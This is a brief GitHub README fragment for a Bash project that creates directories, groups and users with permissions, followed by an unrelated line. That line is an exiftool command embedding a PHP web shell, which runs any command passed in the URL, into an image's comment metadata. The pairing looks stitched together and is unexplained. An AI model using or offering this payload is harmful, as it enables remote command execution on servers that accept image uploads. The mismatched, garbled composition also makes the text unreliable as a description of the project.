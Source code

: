 # Infraestrutura-via-bash

[![Infraestrutura via Script Bash para gera novos diretórios, grupos de trabalho e usuários com os respectivos atributos e permissões via código.](https://github-readme-stats.vercel.app/api/pin/?username=GerbisonSousa&repo=Infraestrutura-via-bash)](https://github.com/GerbisonSousa/Infraestrutura-via-bash)

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' image.png
